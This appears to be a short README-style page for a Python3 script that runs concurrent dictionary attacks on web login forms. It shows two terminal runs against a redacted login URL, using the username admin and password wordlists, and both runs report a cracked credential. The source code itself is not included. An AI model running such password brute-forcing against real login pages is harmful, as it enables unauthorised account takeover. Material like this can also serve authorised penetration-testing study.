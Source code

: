 ### Example concurrent webpage login dictionary attack script in Python3

    $ python3 login-dict-attack.py admin /usr/share/wordlist/passwords.txt https://***.com/123123/login.php 
    Prepared wordlist in memory with 5 entries.
    [+] admin:1999

---

    $ python3 login-dict-attack.py admin /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt https://***.com/123123/login.php
    Prepared wordlist in memory with 10000 entries.
    [+] admin:1999
    2949 of 10000
